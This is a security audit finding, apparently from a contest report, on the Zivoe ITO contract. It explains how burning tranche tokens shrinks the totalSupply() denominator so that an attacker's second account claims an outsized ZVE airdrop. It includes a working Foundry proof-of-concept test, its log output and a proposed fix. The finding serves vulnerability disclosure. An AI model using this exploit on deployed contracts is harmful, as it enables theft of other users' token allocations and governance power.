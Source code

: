 Clumsy Cobalt Lion

high

# ITO can be manipulated

## Summary
The ITO allocates 3 pZVE tokens per senior token minted and 1 pZVE token per junior token minted. When the offering period ends, users can claim the protocol `ZVE token` depending on the share of all pZVE they hold. Only 5% of the total ZVE tokens will be distributed to users, which is equal to `1.25M` tokens.

The ITO can be manipulated because it  uses `totalSupply()` in its calculations.
## Vulnerability Detail
[`ZivoeITO.claimAirdrop()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeITO.sol#L223-L228) calculates the amount of ZVE tokens that should be vested to a certain user. It then creates a vesting schedule and sends all junior and senior tokens to their recipient.

The formula is $pZVEOwned/pZVETotal * totalZVEAirdropped$ (in the code these are called `upper`, `middle` and `lower`).

```solidity
        uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
        uint256 middle = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply() / 20;
        uint256 lower = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply() * 3 + (
            IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply()
        );
```

These calculations can be manipulated because they use `totalSupply()`.  The tranche tokens have a public [`burn()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeTrancheToken.sol#L72) function.

An attacker can use 2 accounts to enter the ITO. They will deposit large amounts of stablecoins towards the senior tranche. When the airdrop starts, they can claim their senior tokens and start vesting ZVE tokens. The senior tokens can then be burned. Now, when the attacker calls the `claimAirdrop` function with their second account, the denominator of the above equation will be much smaller, allowing them to claim much more ZVE tokens than they are entitled to.

## Impact
There are 2 impacts from exploiting this vulnerability:
 - a malicious entity can claim excessively large part of the airdrop and gain governance power in the protocol
 - since the attacker would have gained unexpectedly large amount of ZVE tokens and the total ZVE to be distributed will be `1.25M`, the users that claim after the attacker may not be able to do so if the amount they are entitled to, added to the stolen ZVE, exceeds `1.25M`.

## Code Snippet
Add this function to [`Test_ZivoeITO.sol`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Core/Test_ZivoeITO.sol) and import the `console`.

You can comment the line where Sue burns their tokens and see the differences in the logs.

```solidity
    function test_StealZVE() public {
        // Sam is an honest actor, while Bob is a malicious one
        mint("DAI", address(sam), 3_000_000 ether);
        mint("DAI", address(bob), 2_000_000 ether);
        zvl.try_commence(address(ITO));

        // Bob has another Ethereum account, Sue
        bob.try_transferToken(DAI, address(sue), 1_000_000 ether);
        
        // give approvals
        assert(sam.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(bob.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(sue.try_approveToken(DAI, address(ITO), type(uint256).max));

        // Sam deposits 2M DAI to senior tranche and 400k to the junior one
        hevm.prank(address(sam));
        ITO.depositBoth(2_000_000 ether, DAI, 400_000, DAI);
       
        // Bob deposits 2M DAI into the senior tranche using his both accounts
        hevm.prank(address(bob));
        ITO.depositSenior(1_000_000 ether, DAI);

        hevm.prank(address(sue));
        ITO.depositSenior(1_000_000 ether, DAI);

        // Move the timestamp after the end of the ITO
        hevm.warp(block.timestamp + 31 days);
        
        ITO.claimAirdrop(address(sue));
        (, , , uint256 totalVesting, , , ) = vestZVE.viewSchedule(address(sue));

        // Sue burn all senior tokens
        vm.prank(address(sue));
        zSTT.burn(1_000_000 ether);

        console.log('Sue vesting: ', totalVesting / 1e18);

        ITO.claimAirdrop(address(bob));
        (, , , totalVesting, , , ) = vestZVE.viewSchedule(address(bob));

        console.log('Bob vesting: ', totalVesting / 1e18);

        ITO.claimAirdrop(address(sam));
        (, , , totalVesting, , , ) = vestZVE.viewSchedule(address(sam));

        console.log('Sam vesting: ', totalVesting / 1e18);
    }
```


Fair vesting without prior burning
```solidity
  Sue vesting:  312499
  Bob vesting:  312499
  Sam vesting:  625001
```

Vesting after burning
```solidity
  Sue vesting:  312499
  Bob vesting:  416666
  Sam vesting:  833333
```

Bob and Sue will be able to claim `~750 000` ZVE tokens and Sam will not be able to claim any, because the total exceeds `1.25M`.
## Tool used

Manual Review

## Recommendation
Introduce a few new variables in the ITO contract.
```solidity
   bool hasAirdropped;
   uint256 totalZVE;
   uint256 totalzSTT; 
   uint256 totalzJTT;
```

Then check if the call to `claimAidrop` is a first one and if it is, initialize the variables. Use these variables in the vesting calculations.

```solidity
    function claimAirdrop(address depositor) external returns (
        uint256 zSTTClaimed, uint256 zJTTClaimed, uint256 ZVEVested
    ) {
            ...
            if (!hasAirdropped) {
                  totalZVE = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply();
                  totalzSTT = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply();
                  totalzJTT = IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply();
                  hasAirdropped = true;
            }
            ...

           uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
           uint256 middle = totalZVE / 20;
           uint256 lower = totalzSTT * 3 + totalzJTT;
      }
```